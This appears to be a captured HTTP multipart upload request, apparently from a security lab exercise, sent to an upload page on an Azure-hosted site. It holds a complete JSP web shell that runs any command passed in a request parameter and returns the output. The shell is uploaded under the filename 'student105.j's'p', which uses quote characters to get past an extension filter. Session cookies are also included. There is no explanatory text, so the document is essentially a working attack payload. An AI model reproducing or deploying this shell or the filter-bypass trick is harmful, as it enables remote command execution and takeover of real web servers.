 ```http
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://contactpharmacorp.azurewebsites.net/upload
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=DACC257433B8325C86F27FA753B20846; ARRAffinity=664cff65fb0830a8f00d20cbb06260ad645f7e6c54f889f5a82e638267647ba0; ARRAffinitySameSite=664cff65fb0830a8f00d20cbb06260ad645f7e6c54f889f5a82e638267647ba0

------WebKitFormBoundaryAlkAEB5H0cUnLkgf
Content-Disposition: form-data; name="file"; filename="student105.j's'p"
Content-Type: application/octet-stream

<%@ page
import="java.util.*,java.io.*"%>
<%
%>
<HTML>
<BODY>
<H3>JSP SHELL</H3>
<FORM METHOD="GET" NAME="myform"
ACTION="">
<INPUT TYPE="text" NAME="evil">
<INPUT TYPE="submit" VALUE="Pwn">
</FORM>
<PRE>
<%
if (request.getParameter("evil") != null) {
out.println("Command: " +
request.getParameter("evil") + "<BR>");
Process p =
Runtime.getRuntime().exec(request.getParameter("evil"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) {
out.println(disr);
disr = dis.readLine();
}
}
%>
</PRE>
</BODY>
</HTML>
------WebKitFormBoundaryAlkAEB5H0cUnLkgf
Content-Disposition: form-data; name="student105.j's'p"


------WebKitFormBoundaryAlkAEB5H0cUnLkgf--
```
